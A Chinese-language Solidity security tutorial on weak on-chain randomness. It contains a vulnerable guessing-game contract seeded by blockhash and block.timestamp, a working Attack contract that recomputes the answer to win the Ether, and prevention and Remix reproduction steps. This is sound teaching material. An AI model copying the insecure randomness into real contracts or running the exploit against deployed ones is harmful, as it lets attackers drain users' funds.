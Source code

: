 # 71.Source of Randomness
## 漏洞
blockhash和block.timestamp不是可靠的随机性来源。


注意：无法在Remix中使用blockhash，因此请使用ganache-cli
```solidity
npm i -g ganache-cli
ganache-cli
```
在Remix中切换环境到Web3提供程序。


GuessTheRandomNumber是一个游戏，如果你能猜出从区块哈希和时间戳生成的伪随机数，你就能赢得1 Ether。

乍一看，似乎不可能猜出正确的数字。
但是让我们看看赢得游戏有多么容易。

1. Alice部署GuessTheRandomNumber并放入1 Ether
2. Eve部署Attack
3. Eve调用Attack.attack()并赢得1 Ether

发生了什么？
Attack通过简单地复制计算随机数的代码，计算出了正确的答案。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // 检查余额的辅助函数
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
不要使用blockhash和block.timestamp作为随机性来源。

## remix验证
1. 因为无法在Remix中使用blockhash，因此切换至ganache-cli
![71-1.jpg](./img/71-1.jpg)
2. 部署GuessTheRandomNumber并放入1 Ether
![71-2.jpg](./img/71-2.jpg)
3. 部署Attack合约，调用attack()函数，输入GuessTheRandomNumber合约地址，获取1 ETH 验证
![71-3.jpg](./img/71-3.jpg)